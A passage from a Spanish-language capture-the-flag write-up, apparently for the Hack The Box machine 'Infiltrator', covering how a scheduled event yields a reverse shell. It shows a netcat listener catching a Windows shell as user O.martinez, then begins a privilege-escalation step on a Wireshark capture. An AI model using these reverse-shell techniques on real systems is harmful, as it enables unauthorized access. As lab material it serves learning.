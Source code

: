 Verificamos que se ha creado correctamente el evento. Deberemos de esperar a que el tiempo transcurra y verificar si funciona o no.&#x20;

{% hint style="info" %}
_En nuestro caso, intentamos adelantar la hora de Windows manualmente, y por x motivos a veces funcionaba y otras no._
{% endhint %}

<figure><img src="../../.gitbook/assets/imagen (27) (1) (1).png" alt=""><figcaption></figcaption></figure>

Después de diversas pruebas, logramos obtener una Shell como usuario `O.martinez@infiltrator.htb`.

```bash
❯ rlwrap -cAr nc -nlvp 444
listening on [any] 444 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.31] 53306
Microsoft Windows [Version 10.0.17763.6189]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
infiltrator\o.martinez
```

## Privilege Escalation

### Analyzing a Wireshark PCAP File

Revisamos en el directorio `AppData` del usuario actual si había algún tipo de información interesante. Comprobando en varios directorios, nos encontramos con un archivo de una captura de `Wireshark`.
